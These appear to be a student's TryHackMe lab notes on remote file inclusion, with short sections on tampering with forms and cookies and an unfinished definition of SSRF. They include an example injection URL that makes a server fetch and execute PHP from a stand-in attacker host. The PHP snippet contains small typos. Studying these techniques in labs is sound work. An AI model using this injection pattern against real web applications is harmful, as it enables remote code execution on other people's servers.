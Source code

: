```
- Cross Scripting (XSS) 
- Denial of Service (DoS) 

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is inejcted into the include function via HTTP requests, and the content of malicious file executes on the vulnerable application server. 

![image](https://user-images.githubusercontent.com/79100627/166822359-57abe026-c07d-4e80-9665-704ae7213610.png)

## RFI steps 

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server ```http://attacker.thm/cmd.txt``` where ```cmd.txt``` contains a printing message ```Hello THM```. 

```
<?PHP echp "Hello THM";?>
```

First attacker injects malicious URL, which points to the attacker's server, such as ```http://webapp.thm.index.php?lang=http://attacker.thm/cmd.txt```. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the ```Hello THM``` message. 

## FI Inclusion Challenges 

### Change the GET to POST 

Open the inspector and change the form < form action="#" method="GET" > to < form action"#" method="POST" >
  
  ![image](https://user-images.githubusercontent.com/79100627/167317338-d3c6137b-c902-429c-8069-065e64f5b71e.png)
  ![image](https://user-images.githubusercontent.com/79100627/167317358-ee8b880e-c58c-44ce-9e56-624d5121d786.png)

### Change the Cookie 

Open the inspector and you can change the cookie value in the **Storage**

![image](https://user-images.githubusercontent.com/79100627/167317615-316119d6-5ba3-4079-97cd-6a9c9c58b1a9.png)


## SSRF

### What is an SSRF?

SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing 

## Type of SSRF 

There are two types of SSRF vulnerability; the first is regular SSRF where data is retunred to the attacker's screen.</br>
The second is Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen. </br>

```